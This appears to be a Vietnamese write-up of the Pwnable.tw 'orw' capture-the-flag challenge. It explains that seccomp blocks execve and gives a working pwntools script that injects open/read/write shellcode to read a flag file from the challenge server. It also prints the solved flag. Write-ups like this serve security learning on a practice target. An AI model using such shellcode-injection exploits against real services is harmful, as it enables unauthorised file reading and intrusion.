


# Pwnable.tw - ORW (100 pts)

## 1. Phân tích đề bài
Thử thách **orw** (Open-Read-Write) yêu cầu chúng ta đọc cờ (flag) từ đường dẫn `/home/orw/flag`. 
Thông thường, trong các bài pwn, chúng ta thường sử dụng shellcode để gọi syscall `execve("/bin/sh")` nhằm lấy shell. Tuy nhiên, bài này (đúng như tên gọi của nó) thường sử dụng **seccomp** (Secure Computing Mode) để giới hạn các syscall được phép thực thi, cụ thể là chặn syscall `execve`.
Do đó, chúng ta chỉ có thể sử dụng các syscall được cho phép là `open`, `read`, và `write` (ORW) để thực hiện lần lượt các bước: mở tệp flag, đọc nội dung vào bộ nhớ, và in ra màn hình.

## 2. Ý tưởng khai thác
- **Bước 1**: Mở file chứa flag bằng syscall `open('/home/orw/flag')`.
- **Bước 2**: Đọc nội dung file vừa mở bằng syscall `read` vào một vùng bộ nhớ. Trong trường hợp này, ta có thể ghi thẳng vào đỉnh stack (`esp`). File descriptor sau khi gọi `open` thành công thường sẽ là `3` (vì `0`, `1`, `2` đã được dùng cho `stdin`, `stdout`, và `stderr`).
- **Bước 3**: In nội dung từ vùng bộ nhớ đó (đỉnh stack `esp`) ra màn hình bằng syscall `write` qua file descriptor `1` (`stdout`).

Để quá trình xây dựng shellcode đơn giản, ta sẽ sử dụng module `shellcraft` của thư viện `pwntools` trong Python để tự động sinh các lệnh Assembly tương ứng mà không cần phải tự viết mã máy.

## 3. Kịch bản khai thác (Exploit Script)

Đoạn mã khai thác (giải bài) bằng Python sử dụng `pwntools`:



```python
from pwn import *

# --- PHẦN 1: THIẾT LẬP MÔI TRƯỜNG ---
elf = ELF('./orw')
context.binary = elf
p = remote('chall.pwnable.tw', 10001)
# p = elf.process()

# --- PHẦN 2: CHẾ TẠO VŨ KHÍ (SHELLCODE ORW) ---
payload2 = shellcraft.open('/home/orw/flag')
payload2 += shellcraft.read(3, 'esp', 0x100)  # fd 3 is for files
payload2 += shellcraft.write(1, 'esp', 0x100) # 1 for writing to stdout

# --- PHẦN 3: TẤN CÔNG & THU HOẠCH ---
print(p.recv())
# print(payload2)
p.send(asm(payload2))
print(p.recv())
```

## 4. Kết quả

Tiến hành chạy đoạn script bằng Python để kết nối với server pwnable.tw tại cổng `10001`. Server sẽ yêu cầu chúng ta cung cấp shellcode (`Give my your shellcode:`). Sau khi script gửi shellcode lên, server thực thi đoạn mã độc này, và kết quả là nội dung của file flag được đọc và in ngược lại về terminal.

Flag nhận được là:
**`FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}`**


